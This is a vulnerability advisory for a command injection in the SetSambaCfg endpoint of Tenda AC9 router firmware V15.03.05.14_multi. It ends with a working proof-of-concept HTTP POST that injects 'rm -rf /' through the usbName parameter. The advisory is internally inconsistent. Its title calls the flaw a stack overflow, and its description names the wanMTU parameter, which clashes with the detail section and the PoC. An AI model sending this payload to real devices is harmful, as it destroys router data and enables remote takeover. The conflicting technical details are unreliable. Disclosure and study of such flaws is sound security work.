

# Tenda AC9 V1.0 V15.03.05.14_multi stack overflow vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the wanMTU parameter of route /goform/SetSambaCfg has a Command Injection Vulnerability, which may lead to remote arbitrary code execution.
## Vulnerability Detail
In the /goform/SetSambaCfg back-end handler formSetSamba, the HTTP POST request parameters action and usbName are obtained by the function sub_2B9D4. When the content of the parameter "action" is "del", the parameter "usbName" is concatenated into doSystemCmd with a format string and then executed. An attacker can construct malicious parameters "action" and "usbName" to enable remote code execution.


## Poc
```py
POST /goform/SetSambaCfg HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

action=del&usbName=1; rm -rf /
```
